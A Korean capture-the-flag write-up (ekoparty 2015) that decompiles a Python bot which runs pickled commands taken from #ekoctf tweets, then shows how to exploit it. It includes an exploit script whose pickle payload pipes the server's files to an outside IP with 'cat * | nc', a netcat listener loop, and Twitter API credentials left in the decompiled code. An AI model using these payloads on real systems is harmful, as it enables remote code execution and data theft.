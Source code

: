 ============================================================================================================
[2015_ekoparty] [REV] pyc to py
============================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph foo {
        a -> b;
        
        a [shape=box, label="uncompyle2"];
        b [shape=box, label="python decode"];
    }

|

디컴파일 (pyc -> py)
============================================================================================================

압축 파일을 다운 받은 뒤 풀어보니 pyc파일 형식입니다.

pyc를 `uncompyle2`_ 를 통해 디컴파일 해줍니다. 

.. _`uncompyle2`: https://github.com/wibiti/uncompyle2

디컴파일한 코드는 다음과 같습니다.

.. code-block:: python

    # Embedded file name: ekobot_final.py
    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython
    
    if 0:
        i11iIiiIii
        OO0o = 'ekoctf'
    
    if 0:
        Iii1I1 + OO0O0O % iiiii % ii1I - ooO0OO000o
    if len(sys.argv) != 2:
        os._exit(0)
        if 0:
            IiII1IiiIiI1/ iIiiiI1IiI1I1

    ##### 중략 #####

    IiIi[0:5] == 'eko11':
        cPickle.loads(IiIiIi[5:])
        os._exit(0)
        if 0:
            iii1II11ii.Oo.iIiiiI1IiI1I1.ii1I

        except Exception as OOooO:
            print str(OOooO)
            if 0:
                ii1II11I1ii1I+ ooO0OO000o % i11iIiiIii.o0oOoO00o - IiII1IiiIiI1

    oo(oo00)

|

리펙토링
============================================================================================================

디컴파일 코드 가독성을 높이기위해 변수명을 수정하고, 필요없는 코드(if 0:)들을 수정해줍니다.

.. code-block:: python

    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython

    if len(sys.argv) != 2:
        os._exit(0)

    input_file = sys.argv[1]

    def read_file1():
        input = 0
        if os.path.isfile(input_file):
            try:
                fileopen = open(input_file, 'r')
                input = int(fileopen.readline(), 10) 
            except:
                input = 0

        return input

    def main(twid):
        try:
            fileopen = open(input_file, 'w')
            fileopen.write(str(twid))
        except:
            print 'error'

    def response_data(url):
        httplist = httplib2.Http('')
        res_header, res_data = httplist.request(url, 'GET')
        if res_header.status == 200:
            try:
                if res_header['content-type'][0:10] == 'text/plain':
                    return res_data
                return 'Err'
            except:
                return 'Err'

        else:
            return url

    def dec(cipher_text):
        try:
            rsa_key = RSA.importKey(open('ekobot.pem').read())
            decode_data = b64decode(cipher_text)
            iiiI11 = rsa_key.decrypt(decode_data)
            return iiiI11
        except Exception as error_page:
            print str(error_page)
            return 'Err'

    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', 'TTlOJrwq5o9obnRyQXRyaOkRoYUBTrCzN9j9IHX0Bc4dS2xBHN', oauth_version=2)
    twitter_token = twitter.obtain_access_token() 
    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', access_token=twitter_token)

    input = read_file1()
    searching = twitter.search(q='#ekoctf', rpp='250', result_type='mixed', since_id=input) 


    for status1 in searching['statuses']:
        if status1['id'] > input:
            input = status1['id']

        n = 0
        try:
            for hashtag1 in status1['entities']['hashtags']:
                if hashtag1['text'] == 'ekoctf':
                    n = 1

            if n == 1:
                for url1 in status1['entities']['urls']:
                    if os.fork() == 0:
                        decrypt = dec(response_data(url1['url']))
                        if decrypt[0:5] == 'eko11':
                            cPickle.loads(decrypt[5:])
                        os._exit(0)

        except Exception as error_page:
            print str(error_page)

    main(input)
 
|


소스 분석
============================================================================================================

이제 코드를 확인해보면 Twython이라는 모듈을 먼저 쓰고 있는걸 볼 수 있습니다. Twitter의 공식 API의 기본 래퍼를 파이썬으로 제작한 것입니다. 
코드 진행 순서는 다음과 같습니다.

- Twitter에 ekoctf 태그로 url부분에 대한 검색을 통해 content-type이 text/plain일 경우, reponse data를 추출

- 추출한 response data를 rsa private key ekobot.pem을 통해 복호화 진행

- 복호화한 데이터 header 값에 'eko11'이 있을 경우, 그 뒤 복호화한 데이터를 cPickle.loads을 통해 명령 실행

twitter를 통해 원하는 명령을 실행할 수 있는 프로그램 형태입니다. 
우선 Public Key를 알아야 해당 문제를 해결할 수 있기 때문에 twitter에서 #ekoctf로 검색을 하니 다음 주소에 Public Key가 있는 걸 확인할 수 있습니다. (https://twitter.com/NullLifeTeam/status/657208358408204288))

.. code-block:: text

    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAmWw84H8BSPG1Ispn1hBP
    WZ4ORxniLhOl76aOAsGsqdRZJyL+PFLWedGUx0ELwzf3vWQ2wMDwN37MZYWdS4z8
    WT6P4FRtK09UtDgqNUQdx49WBqDf2GmIT+uBwMQBUCe3x+RTVcwDzA1I0mPtJj3K
    6bGdmSSBZjgc6MA4rJil7xdSVP5Pedb8MZMKk/5tXmFl3gFjykkUfG+DbmsxulZ4
    8D+IoIU6bVWAkael+ftZtDWY43XkezD2swV01Eaw4J7MzBakPDA6KipxNhKQZ2xo
    eEsP2p8L67qF48eUbxI1ukcrqdy0c92rSihmChGBmHQ2AREshtTTLpM24/Nrirje
    /QIDAQAB
    -----END PUBLIC KEY-----

|

역수행
============================================================================================================

이제 Public Key를 이용해 사용하고자 하는 명령을 RSA로 암호화하여 , twitter에 raw data 형식으로 글을 올리면 됩니다.

본 문서에서는 cat *|nc local_ip 8000 라는 명령을 통해 해당 서버 디렉토리에 파일들을 볼 수 있도록 하겠습니다. 여기서 주의할 점은 파일 명령 앞부분에 "eko11"을 넣어주어야 정상적으로 서버에서 복호화 진행이 될 수 있습니다.

.. code-block:: python

    from Crypto.PublicKey import RSA
    from base64 import b64decode,b64encode
     
    key=RSA.importKey(open('pub.pem').read())
    exploit="eko11"+"cos\nsystem\n(S'cat * | nc 182.70.222.238 8000'\ntR.'\ntR."
    txt=key.encrypt(exploit,32)[0]
    final=b64encode(txt)
    print final
 
그리고 local에서는 while true; do nc -l -n -v -p 8000 ; done 이라는 명령을 입력하고 기다리면 해당 서버 디렉토리 파일 내용을 확인할 수 있습니다.

